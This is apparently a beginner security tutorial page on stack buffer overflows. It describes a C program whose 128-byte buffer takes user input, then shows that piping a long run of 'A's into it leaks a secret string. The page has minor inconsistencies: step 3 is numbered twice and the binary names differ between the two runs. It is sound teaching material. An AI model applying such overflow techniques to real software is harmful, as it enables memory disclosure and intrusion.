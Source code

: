 # Stack 0verflow

### Example:

<script src="https://gist.github.com/n41n4/496691de46d5202aec5585a722763ffa.js?file=snippet.c"></script>

### AIM:
To print the secret.

### Analysis
Execution flow of above example
1. A secret variable is created with some secret value.
2. Then a buffer is initialized with the capacity of 128.
3. User input will be stored in buffer variable using `read` function.
3. Finally User input will be echoed back with welcome using printf.

```bash
inc0gn1t0@inc0gn1t0-VirtualBox:~/Redacted$ ./snippet 
Guest
Welcome Guest
```

### Exploit:


```bash

inc0gn1t0@inc0gn1t0-VirtualBox:~/Redacted$ echo "AAAAAAAAAAAAA......AAAAAAAA" | ./secret 
Welcome AAAAAAAAAAAAA......AAAAAAAASup3r_S3cr37_S7r1n6

```

### Explanation
Here the culprit is `read` function.In this context `read` is used to take input from user.


### Practice
- [Task](Practice-1.html)
